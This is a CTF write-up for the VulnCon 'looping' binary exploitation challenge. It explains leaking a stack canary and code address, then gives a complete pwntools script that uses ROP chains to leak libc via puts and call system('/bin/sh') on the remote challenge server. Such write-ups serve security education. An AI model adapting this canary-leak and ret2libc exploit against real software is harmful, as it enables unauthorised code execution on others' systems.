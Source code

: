 ## VulnCon CTF: looping [pwn]
![](looping_desc.png)

#### For this binary, all the security protections were on. The challenge description mentions something about canaries which is a pretty big hint of what we're supposed to do. The program loops for two times, basically what we need to do is leak the canary and a function address on the first loop (our input is not null terminated), and perform a ROP chain on the second loop to leak a libc address from the remote instance and start execution from main again. On the second go, we ignore the first loop and perform another ROP to call system on the second loop. 

```python
from pwn import *

binary = ELF('./looping', checksec = False)
#p = process('./looping')
breakpoints = ['brva 0x913']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
p = remote("35.232.11.215", 49154)

p.sendline(cyclic(9*8)) #: input is not null terminated
data = p.recv().split('\n')
canary = u64(data[1][:7].rjust(8, '\x00'))
addr_leak = u64(data[1][7:].ljust(8, '\x00'))
func_base = addr_leak & ~0xfff
print(hex(func_base))
print(hex(addr_leak))
print(hex(canary))

#: ROPCHAIN
exploit = 'A' * 72 + p64(canary) + cyclic(8)
exploit += p64(func_base + 0x9f3) #: pop rdi ; ret
exploit += p64(func_base + 0xfd0 + 0x200000) #: setvbuf@GOT
exploit += p64(func_base + 0x710) #: puts
exploit += p64(func_base + 0x88a) #: main
p.sendline(exploit)

print(p.recvuntil('Harder\n'))
setvbuf_leak = u64(p.recv().strip().ljust(8, '\x00'))
print(hex(setvbuf_leak))

#: setup libc
libc = ELF('./libc.so.6', checksec = False)
libc_base = setvbuf_leak - libc.symbols['setvbuf']
print(hex(libc_base))

p.sendline('I will pwn for [hsb] soon, grind lang')
exploit = 'A' * 72 + p64(canary) + cyclic(8)
exploit += p64(func_base + 0x6fe) #: ret
exploit += p64(func_base + 0x9f3) #: pop rdi ; ret
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])
p.sendline(exploit)
p.interactive()
```

![](looping_shell.png)
